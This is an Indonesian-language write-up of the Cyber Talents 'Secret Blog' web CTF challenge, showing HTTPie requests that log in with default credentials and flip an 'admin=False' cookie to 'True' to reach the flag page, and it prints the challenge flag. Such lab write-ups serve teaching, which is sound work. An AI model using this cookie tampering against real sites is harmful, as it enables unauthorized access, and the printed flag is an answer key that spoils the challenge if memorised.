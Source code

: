 ## [Writeup] Cyber Talents: Secret Blog


Tutorial kali ini akan membahas solusi soal CTF [Cyber Talents: Secret Blog](https://cybertalents.com/challenges/web/secret-blog) yang masuk ke dalam ketegori web security. Berikut ini adalah penjelasan dari soal tersebut:

```
Only Blog Admins can see the flag, could you be one of them?
```

Untuk soalnya sendiri, dapat diakses pada [tautan ini](http://35.225.49.73/secretblog/). Seperti beberapa soal lainnya, kali ini kita akan menggunakan [HTTPie](https://httpie.org). Pertama, kita akan mengakses halaman tersebut:

```bash
% http "http://35.225.49.73/secretblog/"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 03 Aug 2020 01:13:14 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<!DOCTYPE html>
<html lang="en">
<head>
    <title>CyberTalnet Blog</title>
    <link href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">
    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">
</head>
<body>
    <div class="container">
        <div class="header">
            <h3 class="text-muted">Secret Blog</h3>
        </div>
      <div class="jumbotron">
        <p class="lead"></p>
        <div class="login-form">
            <form role="form" action="login.php" method="post">
                <div class="form-group">
                    <input type="text" name="Username" id="Username" class="form-control input-lg" placeholder="Username">
                </div>
                <div class="form-group">
                    <input type="password" name="password" id="password" class="form-control input-lg" placeholder="Password">
                </div>
            </div>
            <div class="row">
                <div class="col-xs-12 col-sm-12 col-md-12">
                    <input type="submit" class="btn btn-lg btn-success btn-block" value="Sign In">
                </div>
            </div>
        </form>
    </div>
</div>
</body>
</html>
```

Halaman tersebut meminta kita login, dimana informasi login akan dikirimkan ke halaman **login.php**. Kita akan mengirimkan **Username** dan **password** seperti ini:

```bash
% http -f "http://35.225.49.73/secretblog/login.php" "Username=admin" "password=admin"
HTTP/1.1 302 Found
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Mon, 03 Aug 2020 01:15:48 GMT
Location: ./flag.php
Server: nginx/1.10.3 (Ubuntu)
Set-Cookie: username=admin
Set-Cookie: password=admin
Set-Cookie: admin=False
Transfer-Encoding: chunked
```

Dari respon yang dikirimkan oleh server di atas, bisa terlihat bahwa kita akan diarahkan ke halaman **flag.php** dengan 3 buah _Cookie_ :

```
Set-Cookie: username=admin
Set-Cookie: password=admin
Set-Cookie: admin=False
```

Kita akan mengirimkan request ke halaman **flag.php** dengan mengatur ketiga cookie tersebut seperti ini:

```bash
% http -f "http://35.225.49.73/secretblog/flag.php" "Cookie: Username=admin;password=admin;admin=True"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 03 Aug 2020 01:18:34 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<!DOCTYPE html>
<html lang="en">
<head>
    <title>CyberTalent</title>
    <link href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">
    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>
<body>
    <div class="container">
        <div class="header">
            <h3 class="text-muted">Flag</h3>
        </div>
        <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
          <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
          Success: You logged in! Not sure you&#39;ll be able to see the flag though.
            </div>
        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>
                flag{I_l0v3_Co0ki3s_M4nipul4ti0n}            </b></p>
        </div>
    </div>
</body>
</html>
```

Ternyata request tersebut berhasil, dan kita mendapatkan flagnya yaitu `flag{I_l0v3_Co0ki3s_M4nipul4ti0n}`. Sekian tutorial singkat kali ini, semoga bermanfaat. Terima kasih kepada Allah SWT, dan Anda yang telah membaca tutorial ini.
